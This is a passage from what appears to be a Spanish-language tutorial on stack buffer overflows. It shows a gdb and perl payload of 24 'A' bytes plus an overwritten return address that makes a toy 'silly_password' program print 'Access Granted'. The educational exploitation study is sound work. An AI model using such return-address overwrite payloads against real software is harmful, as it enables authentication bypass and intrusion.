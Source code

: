 ```
gdb -q --args silly_password $(perl -e 'print "\x41" x 24 . "\x70\x12\x40";')
```
ejecuta `gdb` con el argumento: 24 veces A, y luego "\x70\x12\x40". Si hacemos
esto, el stack se ve como sigue justo antes de ejecutar `return(auth_flag)`:

<p align="center">
  <img src="../Images/gdb7.png">
</p>

¡Éxito! Hemos llenado de ruido (`0x41`, o caracteres "A") los registros
intermedios entre el `password_buffer` y la *return address*, e insertado en la
*return address* el valor `0x00401270`. Como esta era la instrucción
correspondiente a imprimir *Access granted*, es efectivamente lo que sucede
cuando continuamos el programa:

``` 
-=-=-=-=-=-=-=-=-=-=-=-=-=-
 Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

Program received signal SIGBUS, Bus error.
```
--- 
